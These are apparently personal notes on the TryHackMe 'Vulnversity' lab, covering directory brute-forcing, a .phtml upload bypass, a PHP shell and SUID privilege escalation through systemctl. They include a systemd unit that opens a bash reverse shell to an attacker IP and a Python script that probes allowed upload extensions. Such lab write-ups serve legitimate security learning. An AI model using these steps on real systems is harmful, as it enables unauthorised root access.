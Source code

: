 # TRY HACK ME NOTES
> LAB : Vulnversity
1. Reconnaissance  : Search active services on target system, OS, Versions
2. Bruteforce directories using gobuster to find any vulnerable entry points
     - /internal/ allowed to upload files
  
3. Check what kind of files are allowed to upload or can we execute those files
     - Use Burp or python script
     - We can upload .phtml
4. Upload a phpshell to server
5. Start a netcat session for phpshell and gain a non-privileged access
6. Persorm Linux Privilege excalation using SUID
  - How to search for all binaries with SUID bit set
   -  find / -perm -u=s -type f 2>/dev/null
   -  Identify a binary with root as owner
   -  Use https://gtfobins.github.io/gtfobins/systemctl/ to find how to exploit
   -  Created root.service with code:
     ```
     [Unit]
     Description=root
     
     [Service]
     Type=simple
     User=root
     ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<Attacker-IP-Address>/4242 0>&1'
     
     [Install]
     WantedBy=multi-user.target
     ```

- Hosted file using python server
- downloaded file to /tmp on target using wget
- start a listner on attcker machine
- enabled and started the service
- We get a root access

 ISSUES/Learnings: 
 1. curly quote V/S straight quote in bash command.

 2. Python script used to enumerate file extension allowed to upload:
```
import requests
import os

ip = "<Server Ip Address >"
url = f"http://{ip}:3333/internal/index.php"

original = "index.php"
filename = "index"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(original, new_filename)

    with open(new_filename, "rb") as f:
        files = {"file": f}
        r = requests.post(url, files=files)


        if "Extension not allowed" in r.text:
            print(f"{ext} extension not allowed")
        else:
            print(f"{ext} seems to be allowed??")

    original = new_filename
os.rename(new_filename, "index.php")
```



